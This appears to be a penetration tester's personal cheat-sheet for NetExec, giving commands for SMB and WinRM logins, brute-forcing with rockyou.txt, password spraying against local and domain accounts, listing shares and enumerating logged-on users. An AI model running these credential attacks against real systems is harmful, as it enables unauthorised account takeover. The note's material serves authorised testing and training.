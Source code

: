 -- -
### General Usage
`(Pwn3d!)` signifies you can login and use system commands, usually also means local admin. 
```bash
# works the same way independent of protocol
# you can put a single username or password
# or you can put a list for bruteforcing either using the same flags
# -u: username or user list
# -p: password or password list
netexec <protocol> <ip> -u <username or user list> -p <password or password list>
netexec smb 10.10.10.10 -u jack -p Password123
netexec winrm 10.10.10.10 -u user.lst -p rockyou.txt

# continue attack even if a valid login is found
netexec winrm 10.10.10.10 -u user.lst -p rockyou.txt --continue-on-success
```
### SMB
```bash
# list available shares for a given user
netexec smb <ip> -u <username> -p <passwd> --shares
```
### Password Spray
```bash
# local auth
netexec <protocol> <ip> -u <userlist> -p '<passwd>' --local-auth 

# AD
netexec <protocol> <ip> -u <userlist> -p '<passwd>'
```
### PsExec
![[Dark Arts/Services/SMB/Tools/PSExec#^2f3c64|PSExec]]
### Enum Logged on Users
If you have local admin access, you can see which users are currently logged into the system.
```bash
netexec smmb <ip> -u <user> -p '<passwd>' --loggedon-users
```